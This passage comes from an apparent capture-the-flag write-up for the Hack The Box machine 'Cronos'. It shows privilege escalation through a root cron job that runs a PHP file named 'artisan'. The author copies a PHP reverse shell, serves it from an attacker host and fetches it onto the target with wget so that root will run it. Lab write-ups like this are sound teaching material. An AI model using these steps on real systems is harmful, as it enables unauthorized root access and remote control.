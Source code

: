 ![image 10](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(10).png)

Hit execute!

![image 11](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(11).png)



## Privilege Escalation

<div style="background-color: #1e2124; padding: 10px;">
www-data@cronos:/var/www/admin$<span style="color:red"> cat /etc/crontab</span></div>
<br>

![image 12](https://raw.githubusercontent.com/thehunt1s0n/media/main/Cronos-htb/image%20(12).png)


><span style="color:green; font-style:italic; font-family: Calibri, sans-serif; font-size: larger">As u can see the system keeps executing the file artisan as root.
This file seems to be php type.
So let's upload a php reverse shell & change the name to artisan then execute it as root using sudo.</span>

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ locate shell.php</span></div>
<br> 




<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php</span></div>
<br>



Don't forget to edit that reverse shell & change the attacker's ip and the port.


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ python3 -m http.server 8000</span></div>
<br>



<div style="background-color: #1e2124; padding: 10px;">
www-data@cronos:/var/www/admin$<span style="color:red"> wget http://10.10.14.23:8000/shell.php</span></div>
<br>



<div style="background-color: #1e2124; padding: 10px;">
www-data@cronos:/var/www/admin$<span style="color:red"> cp shell.php /var/www/laravel/</span></div>
<br> 

<div style="background-color: #1e2124; padding: 10px;">
www-data@cronos:/var/www/admin$<span style="color:red"> cd /var/www/laravel</span></div>
<br>
